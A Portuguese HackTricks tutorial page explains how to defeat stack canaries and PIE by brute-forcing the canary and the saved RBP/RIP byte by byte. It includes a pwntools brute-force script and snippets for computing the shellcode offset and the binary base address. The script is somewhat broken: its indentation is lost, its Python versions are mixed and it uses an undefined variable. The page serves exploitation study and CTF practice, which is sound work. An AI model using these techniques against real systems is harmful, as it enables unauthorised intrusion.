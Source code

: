 # Endereços BF na Pilha

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

**Se você está enfrentando um binário protegido por um canário e PIE (Executable Independente de Posição), você provavelmente precisa encontrar uma maneira de contorná-los.**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Note que **`checksec`** pode não encontrar que um binário está protegido por um canário se este foi compilado estaticamente e não é capaz de identificar a função.\
No entanto, você pode notar isso manualmente se descobrir que um valor é salvo na pilha no início de uma chamada de função e esse valor é verificado antes de sair.
{% endhint %}

## Endereços de Força Bruta

Para contornar o PIE, você precisa **vazar algum endereço**. E se o binário não estiver vazando nenhum endereço, o melhor a fazer é **forçar o RBP e o RIP salvos na pilha** na função vulnerável.\
Por exemplo, se um binário estiver protegido usando tanto um **canário** quanto **PIE**, você pode começar a forçar o canário, então os **próximos** 8 Bytes (x64) serão o **RBP** salvo e os **próximos** 8 Bytes serão o **RIP** salvo.

{% hint style="success" %}
Supõe-se que o endereço de retorno dentro da pilha pertença ao código binário principal, que, se a vulnerabilidade estiver localizada no código binário, geralmente será o caso.
{% endhint %}

Para forçar o RBP e o RIP do binário, você pode descobrir que um byte adivinhado válido está correto se o programa produzir alguma saída ou simplesmente não travar. A **mesma função** fornecida para forçar o canário pode ser usada para forçar o RBP e o RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
A última coisa que você precisa para derrotar o PIE é calcular **endereços úteis a partir dos endereços vazados**: o **RBP** e o **RIP**.

A partir do **RBP** você pode calcular **onde você está escrevendo seu shell na pilha**. Isso pode ser muito útil para saber onde você vai escrever a string _"/bin/sh\x00"_ dentro da pilha. Para calcular a distância entre o RBP vazado e seu shellcode, você pode simplesmente colocar um **breakpoint após vazar o RBP** e verificar **onde seu shellcode está localizado**, então, você pode calcular a distância entre o shellcode e o RBP:
```python
INI_SHELLCODE = RBP - 1152
```
A partir do **RIP**, você pode calcular o **endereço base do binário PIE**, que é o que você vai precisar para criar uma **cadeia ROP válida**.\
Para calcular o endereço base, basta fazer `objdump -d vunbinary` e verificar os últimos endereços desassemblados:

![](<../../../../.gitbook/assets/image (145).png>)

Nesse exemplo, você pode ver que apenas **1 Byte e meio é necessário** para localizar todo o código, então, o endereço base nesta situação será o **RIP vazado, mas terminando em "000"**. Por exemplo, se você vazou `0x562002970ecf`, o endereço base é `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporte o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
